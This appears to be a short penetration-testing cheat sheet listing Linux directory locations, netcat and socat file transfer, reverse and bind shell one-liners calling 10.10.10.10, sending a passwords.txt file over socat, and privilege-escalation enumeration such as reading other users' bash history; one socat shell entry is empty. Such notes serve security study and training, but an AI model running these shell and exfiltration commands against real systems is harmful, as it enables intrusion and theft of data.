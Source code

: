 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files
# File transfer
- `nc -nv 10.10.10.10 4444 < nc.exe` `nc -nlvp 4444 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
- netcat(nc)
  - Remote shell `nc -nv 10.10.10.10 4444 -e /bin/bash` 
  - Bind shell `nc -nvlp 4444 -e /bin/bash`
- socat
  - Remote shell ``
  - Connect `socat - TCP4:10.10.10.10:80`

# Linux privilege escalation
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
